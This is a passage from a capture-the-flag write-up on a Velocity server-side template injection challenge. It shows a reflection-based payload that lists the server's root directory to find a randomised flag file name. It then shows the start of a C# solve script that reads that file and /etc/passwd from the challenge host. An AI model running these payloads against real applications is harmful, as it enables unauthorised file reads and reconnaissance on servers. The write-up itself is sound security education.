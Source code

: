 ```html

</h2>
</body>
</html>
```

We can see that we have successfully read the `/etc/passwd` file.


## Flag File Name

When we look at the `Dockerfile` and `entrypoint.sh`, we can see the following:

```bash
mv /flag.txt /flag$(cat /dev/urandom | tr -cd "a-f0-9" | head -c 10).txt
```

This is just evil. We have the ability to read files, but the file name is randomized, so we can't just read `/flag.txt`. We need to find a way to get the file name.

Luckily we can use the same method as before. We can use reflection to get a reference to the `File` class and then call the `listFiles` method to get a list of files in the root directory.

Payload:

```velocity
#set($fileClass = $name.getClass().forName('java.io.File'))
#set($fileConstructor = $fileClass.getConstructor($name.class))
#set($rootDir = $fileConstructor.newInstance('/'))
#set($listFilesMethod = $fileClass.getMethod('listFiles'))
#set($filesArray = $listFilesMethod.invoke($rootDir))

#foreach($file in $filesArray)
    #set($fileName = $file.getName())
    $fileName
#end
```


## Final Solve Script

Full LINQPad script: [solve.linq](solve.linq)

```c#
const string URL = "http://94.237.49.147:41947/";

async Task Main()
{
	"> Getting flag file name...".Dump();
	var flagFileName = await FindFlagFileName();
	flagFileName.Dump();
	"".Dump();
	
	"> Getting flag contents...".Dump();
	var flag = await ReadFile($"/{flagFileName}");
	flag.Dump();
	"".Dump();

	"> Getting /etc/passwd for fun...".Dump();
	var etcPasswd = await ReadFile("/etc/passwd");
	etcPasswd.Dump();
	"".Dump();
}

async Task<string> FindFlagFileName()
{
	var findFlagFilePayload = $@"
		#set($fileClass = $name.getClass().forName('java.io.File'))
```